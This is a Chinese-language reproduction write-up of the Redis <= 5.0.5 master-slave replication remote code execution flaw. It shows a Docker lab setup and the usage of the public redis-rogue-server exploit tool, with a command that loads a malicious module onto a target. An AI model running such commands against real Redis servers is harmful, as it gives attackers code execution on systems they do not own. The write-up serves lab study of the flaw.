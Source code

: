 # Redis <= 5.0.5 主从复制 RCE 

## 漏洞描述

在2019年7月7日结束的WCTF2019 Final上，LC/BC的成员Pavel Toporkov在分享会上介绍了一种关于redis新版本的RCE利用方式，比起以前的利用方式来说，这种利用方式更为通用，危害也更大

[Pavel Toporkov的分享](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf)

## 影响版本

> [!NOTE]
>
> Redis <= 5.0.5

## 环境搭建

```shell
docker pull damonevking/redis5.0 
docker run -p 6379:6379 -d damonevking/redis5.0 redis-server
```

nmap扫描一下6379端口开放即为搭建成功

```shell
root@kali:~/桌面# docker pull damonevking/redis5.0 
Using default tag: latest

latest: Pulling from damonevking/redis5.0
fc7181108d40: Pull complete 
3e0ac67cad82: Pull complete 
6ee495cb7235: Pull complete 
9f7206d08b9d: Pull complete 
a8354ef8cccb: Pull complete 
53afb10d81c2: Pull complete 
Digest: sha256:adcf62f378efe1187d2f72c6f0ecdf86ab2173a9e1c3c9f4fe4bb89060f5362f
Status: Downloaded newer image for damonevking/redis5.0:latest
docker.io/damonevking/redis5.0:latest
root@kali:~/桌面# docker run -p 6379:6379 -d damonevking/redis5.0 redis-server
1275aa9c6c8f8ad0b6c8e58e609be6681acedec301b5593f7e8b0bd65f7fad12
root@kali:~/桌面# nmap 127.0.0.1 -p 6379
Starting Nmap 7.80 (https://nmap.org ) at 2020-12-08 21:47 CST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000099s latency).

PORT     STATE SERVICE
6379/tcp open  redis

Nmap done: 1 IP address (1 host up) scanned in 0.10 seconds
```

## 漏洞复现

关于漏洞原理请查看[Pavel Toporkov的分享](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf)

漏洞利用脚本: [n0b0dyCN/redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server)

```shell
➜ ./redis-rogue-server.py -h
______         _ _      ______                         _____                          
| ___ \       | (_)     | ___ \                       /  ___|                         
| |_/ /___  __| |_ ___  | |_/ /___   __ _ _   _  ___  \ `--.  ___ _ ____   _____ _ __ 
|    // _ \/ _` | / __| |    // _ \ / _` | | | |/ _ \  `--. \/ _ \ '__\ \ / / _ \ '__|
| |\ \  __/ (_| | \__ \ | |\ \ (_) | (_| | |_| |  __/ /\__/ /  __/ |   \ V /  __/ |   
\_| \_\___|\__,_|_|___/ \_| \_\___/ \__, |\__,_|\___| \____/ \___|_|    \_/ \___|_|   
                                     __/ |                                            
                                    |___/                                             
@copyright n0b0dy @ r3kapig

Usage: redis-rogue-server.py [options]

Options:
  -h, --help           show this help message and exit
  --rhost=REMOTE_HOST  target host
  --rport=REMOTE_PORT  target redis port, default 6379
  --lhost=LOCAL_HOST   rogue server ip
  --lport=LOCAL_PORT   rogue server listen port, default 21000
  --exp=EXP_FILE       Redis Module to load, default exp.so
  -v, --verbose        Show full data stream
Example
```

```shell
python3 redis-rogue-server.py --rhost 192.168.51.146 --lhost 192.168.51.146 --exp=exp.so
```

![](Redis-小于5.0.5-主从复制-RCE-.assets/16273635503145332.jpg)

![](Redis-小于5.0.5-主从复制-RCE-.assets/16273635506153479.jpg)